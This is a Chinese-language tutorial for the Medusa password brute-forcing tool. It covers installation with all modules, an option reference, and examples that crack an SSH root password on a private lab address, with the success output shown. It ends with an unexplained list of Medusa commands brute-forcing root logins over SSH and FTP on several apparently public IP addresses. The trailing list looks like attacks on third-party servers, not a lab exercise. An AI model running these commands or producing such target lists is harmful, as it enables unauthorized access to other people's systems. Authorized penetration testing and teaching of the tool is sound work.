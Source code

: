 ## Medusa

Medusa(美杜莎)是一个速度快，支持大规模并行，模块化的爆力破解工具。

可以同时对多个主机，用户或密码执行强力测试。Medusa和hydra一样，同样属于在线密码破解工具。

Medusa是支持AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NCP (NetWare),NNTP,PcAnywhere, POP3, PostgreSQL, rexec, RDP、rlogin, rsh, SMBNT,SMTP(AUTH/VRFY),SNMP, SSHv2, SVN, Telnet, VmAuthd, VNC、Generic Wrapper以及Web表单的密码爆破工具。

官方网站：http://foofus.net/goons/jmk/medusa/medusa.html。
 
## 安装medusa

    [root@k5 ~]# yum install libssh2-devel libssh2-devel  -y
    [root@k5 ~]# tar zxvf 2.2.tar.gz
    [root@k5 ~]# cd medusa-2.2/
    [root@k5 medusa-2.2]# ./configure   --enable-debug=yes --enable-module-afp=yes --enable-module-cvs=yes --enable-module-ftp=yes --enable-module-http=yes --enable-module-imap=yes --enable-module-mssql=yes --enable-module-mysql=yes --enable-module-ncp=yes --enable-module-nntp=yes --enable-module-pcanywhere=yes --enable-module-pop3=yes --enable-module-postgres=yes --enable-module-rexec=yes --enable-module-rlogin=yes --enable-module-rsh=yes --enable-module-smbnt=yes --enable-module-smtp=yes --enable-module-smtp-vrfy=yes --enable-module-snmp=yes --enable-module-ssh=yes --enable-module-svn=yes --enable-module-telnet=yes --enable-module-vmauthd=yes --enable-module-vnc=yes --enable-module-wrapper=yes --enable-module-web-form=yes
    
    #这个参数中加入很多模块，这样方便后期使用。--enable-module-ssh=yes这个就是稍后要使用的暴力破解sshd服务的模块。
    [root@k5 medusa-2.2]#make -j 4
    
    [root@k5 medusa-2.2]# make install         
    # 安装完成后，会将medusa的一些modules 文件复制到/usr/local/lib/medusa/modules文件夹。
    
    [root@k5 ~]# ls /usr/local/lib/medusa/modules  #查看已经生成的模块

 
## Medusa参数说明
    Medusa [-hhost|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module[OPT]
    -h [TEXT]      目标主机名称或者IP地址
    -H [FILE]       包含目标主机名称或者IP地址文件
    -u [TEXT]      测试的用户名
    -U [FILE]       包含测试的用户名文件
    -p [TEXT]      测试的密码
    -P [FILE]       包含测试的密码文件
    -C [FILE]       组合条目文件
    -O [FILE]       日志信息文件
    -e [n/s/ns]    n代表空密码，s代表为密码与用户名相同
    -M [TEXT]      模块执行名称
    -m [TEXT]      传递参数到模块
    -d                 显示所有的模块名称
    -n [NUM]       使用非默认Tcp端口
    -s                 启用SSL
    -r [NUM]       重试间隔时间，默认为3秒
    -t [NUM]       设定线程数量
    -T             同时测试的主机总数
    -L                 并行化，每个用户使用一个线程
    -f                 在任何主机上找到第一个账号/密码后，停止破解
    -F                在任何主机上找到第一个有效的用户名/密码后停止审计。
    -q                显示模块的使用信息
    -v [NUM]      详细级别（0-6）
    -w [NUM]     错误调试级别（0-10）
    -V                显示版本
    -Z [TEXT]      继续扫描上一次
 
## 破解单一服务器SSH密码

    例1：通过文件来指定host和user，host.txt为目标主机名称或者IP地址，user.txt指定需要暴力破解的用户名，密码指定为123456。
    [root@k5 medusa-2.2]# cd
    [root@k5 ~]# echo 10.27.17.34 > /root/host.txt
    [root@k5 ~]# echo root > /root/users.txt
    [root@k5 ~]# medusa -M ssh -H ./host.txt -U ./users.txt -p 123456
    
     
    注：可以看到暴解成功。
     
    例2：对单一服务器进行密码字典暴力破解
    [root@k5 ~]# vim /root/p.txt       #写入以下内容，每行一个密码，做一个临时字典 。
    123
    abc123
    123456
    666666
    注：其中123456 是我们的密码
    [root@k5 ~]# medusa -M ssh -H ./host.txt -U ./users.txt -P p.txt
     
    例3：加-O  ssh.log 可以将成功破解的记录记录到ssh.log文件中
    [root@k5 medusa-2.2]# medusa -M ssh -H /root/host.txt -U /root/users.txt -P /root/p.txt -O ./ssh.log
    
    
    ACCOUNT CHECK: [ssh] Host: 10.27.17.34 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456 (2 of 861 complete)
    ACCOUNT FOUND: [ssh] Host: 10.27.17.34 User: root Password: 123456 [SUCCESS]
    [root@k5 ~]# cat ssh.log
    # Medusa has finished (2019-09-19 11:13:37).
    # Medusa v.2.2 (2019-09-19 11:15:16)
    # medusa -M ssh -H /root/host.txt -U /root/users.txt -P /root/p.txt -O ./ssh.log 
    # Medusa v.2.2 (2019-09-19 11:26:37)
    # medusa -M ssh -H /root/host.txt -U /root/users.txt -P /root/p.txt -O ./ssh.log 
    ACCOUNT FOUND: [ssh] Host: 10.27.17.34 User: root Password: 123456 [SUCCESS]
    # Medusa has finished (2019-09-19 11:26:40).

---


    medusa -M ssh -h 39.97.210.249 -u root  -P /root/passwords.txt -O ./ssh.log  -n 9981 -t 10
    
    medusa -M ssh -h 122.51.211.131 -u root  -P /root/passwords.txt -O ./ssh.log  -t 10
    
    medusa -M ssh -h 123.57.158.241 -u root -P /root/passwords.txt -O ./ssh.log -t 10
    
    medusa -M ssh -h 59.110.218.150 -u root -P /root/passwords.txt -O ./ssh.log -t 10
    
    medusa -M ftp -h 92.91.113.163 -u root -P /root/passwords.txt -O ./ssh.log -t 10